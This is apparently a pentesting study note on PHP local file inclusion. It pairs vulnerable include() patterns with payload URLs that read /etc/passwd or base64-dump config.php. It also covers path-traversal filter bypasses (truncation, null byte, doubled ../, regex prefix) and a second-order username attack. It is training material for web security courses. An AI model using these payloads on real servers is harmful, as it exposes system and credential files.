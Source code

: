 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# File Disclosure

{% hint style="info" %}
Manipulating HTTP parameters to display the content of any local file on the hosting server.
{% endhint %}

Two types of file disclosure:

1. [**LFI**](#user-content-fn-1)[^1] -> the file chosen to be included is local on the target machine
2. [**RFI**](#user-content-fn-2)[^2] -> the file is included on other machines

The common place we usually find LFI within is **template engines**. These keep the static parts of the web application the same when navigating between different pages. For example, `/index.php?page=about'`:

* `/index.php` sets the static content
* `?page=about` pulls the dynamic content, e.g. `about.php`

## Basic LFI

Using **absolute path**.

```php
# The whole input is used
include($_GET['language']);
```

```html
<!-- Basic LFI -->
/index.php?language=/etc/passwd
```

## Path Traversal

Using **relative path.**

```php
# String appended/prepended to the parameter
include("./languages/" . $_GET['language']);
```

```html
<!-- Path traversal -->
/index.php?language=../../../../../../etc/passwd
```

{% hint style="info" %}
**Default on using Path Traversal** -> works in both cases. \
If unsure for the `pwd` **keep adding `../`** -> does not break the path.
{% endhint %}

## Filename Prefix

Using `/../` (_the directory may not exist and may break some FI techniques, such as PHP wrappers/filters_).

```php
# Input appended after another string
include("lang_" . $_GET['language']);
```

```html
<!-- Bypassing prefix -->
/index.php?language=/../../../etc/passwd
```

## Appended Extensions

```php
# Extension appended to the target parameter
include($_GET['language'] . ".php");
```

### Path Truncation (ealier PHP versions)

* Max strings length is `4096` chars -> everything longer is truncated.
* Trailing `/` and `.` in path names are truncated (`/etc/passwd/.` -> `/etc/passwd`).
* Both PHP and Linux disregard multiple `/` in the path ( `////etc/passwd` =`/etc/passwd`).
* Similarly, a current directory shortcut (`.`) in the middle of the path would also be disregarded.

Based on the those characteristics, we can create very long strings that evaluate to the target path.

{% hint style="warning" %}
For this technique to work, we need to **start the path with a non-existing directory**.
{% endhint %}

{% code overflow="wrap" %}
```html
<!-- Creating a string longer than 4096 chars -->
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Creating the above with bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done non_existing_directory/../../../etc/passwd/./././././././
```
{% endcode %}

### Null Byte (PHP < 5.3.4)

Appended extensions can be also bypassed with the use of a **null byte** (`%00` or `0x00`).

```html
<!-- Commenting out the extension -->
/index.php?language=/../../../etc/passwd%00
```

## Path Traversal Filters

### Search and Replace

One of the most common defences against LFI -> deletes substrings of `../,` e.g. `../../../etc/passwd` -> `.languages/etc/passwd`.

```php
# Search and replace method
$language = str_replace('../', '', $_GET['language']);
```

If **non-recursive**, i.e., runs just a single time on the input string -> double up the `../` (or `..././`, `..../`, `....////`, etc).&#x20;

```html
<!-- Bypassing a non-recursive search and replace filter -->
/index.php?language=....//....//....//etc/passwd
```

### Character Filters

If `.` and/or `/` are banned -> URL-encode once or twice.

## Approved Paths

Regex usage to ensure that the file being included is under a defined directory -> include the directory within the payload.

{% code overflow="wrap" %}
```php
# Using regex to "lock" down the directory
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) { include($_GET['language']); } else { echo 'Illegal path specified!'; }
```
{% endcode %}

```html
<!-- Bypassing regex filters -->
/index.php?language=./languages/../../../etc/passwd
```

## PHP Filters

Read the source code of PHP files.

```html
<!-- Exfiltrating the source code of the config.php file -->
/index.php?language=php://filter/read=convert.base64-encode/resource=config.php
```

For an example of this check [StreamIO](../../../../boxes/boxes/medium/streamio.md#local-file-inclusion).

## Second-Order Attacks

Poison a database entry, so another web application functionality gets tricked or our registration name. This type of attack is often overlooked by the developers, as values pulled from the application's database is generally trusted, i.e., not sanitized.

1. Option to download our avatar via `/profile/$username/avatar.png`.
2. Craft a malicious LFI username, such as `../../../etc/passwd`.

## Resources

{% tabs %}
{% tab title="HTB" %}
{% embed url="https://academy.hackthebox.com/module/details/23" %}
{% endtab %}

{% tab title="PostSwigger" %}
{% embed url="https://portswigger.net/web-security/file-path-traversal" %}
{% endtab %}

{% tab title="THM" %}
{% embed url="https://tryhackme.com/jr/fileinc" %}
{% endtab %}
{% endtabs %}

[^1]: Local File Inclusion

[^2]: Remote File Inclusion
